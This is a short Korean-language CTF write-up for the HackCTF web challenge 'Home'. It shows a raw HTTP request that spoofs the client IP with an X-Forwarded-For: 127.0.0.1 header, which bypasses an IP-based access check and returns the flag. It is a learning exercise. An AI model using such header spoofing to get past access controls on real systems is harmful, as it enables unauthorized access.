


# HackCTF - WEB - Home

일단 문제 사이트에 접근을 하면 아래와 같은 화면으로 IP 주소에 대해 검증을 하여 접근 제한을 하는 모습을 볼 수 있습니다.



이때 머리말을 생각 해보라고 힌트를 주는데 이떄의 머리말은 HTTP의 Header에 대해 이야기 하는 것이고 예전에 풀었던 RITSEC CTF의 문제와 같이 **X-Forwarded-For** 를 이용하는 것을 알 수 있습니다. 이제 한번 패킷을 전송해봅니다.

```http
GET / HTTP/1.1
Host: ctf.j0n9hyun.xyz:2034
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.1 // 루프백 주소를 전달
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.146 Whale/2.6.89.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.2.1648668259.1573465863; _gid=GA1.2.1890637559.1575894614; Cookie=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5; PHPSESSID=rmsjabjhdvlhu8cp8bsa995p45; session=.eJwNz7FugzAQANBfqW5mwA7pgNShFSQK1RlR2bHOGwUqsDkiFVUBovx72d_yHlC3PEyQ_tTj3EUwtJAKKV4jmG5T00H6gJdvSKHU16BkdcTMxMTFqDwdFJ9CafOYNIkyC6s7V6uyF4m2Eko6xvNp3C0773pl843kRaA0d9IFl_o9Qc4FekrImtjpJkHf90pfGXVzQI-Lyj6C021w_mtQTCsy7sas5MPR2XxRuyFtFvSqx6wfaDN3tdEbPCP4m7vfqeY9AEXdzd3tc2B4_gM2Xk4a.EM_P2A.Gx4Mr9GrGMSRPs5hUMFmOdKw-Es; PassAdmin=j0n9hyun
Connection: close
```

이제 결과를 보면 아래와 같이 플래그가 출력 되는 것을 볼 수 있습니다.


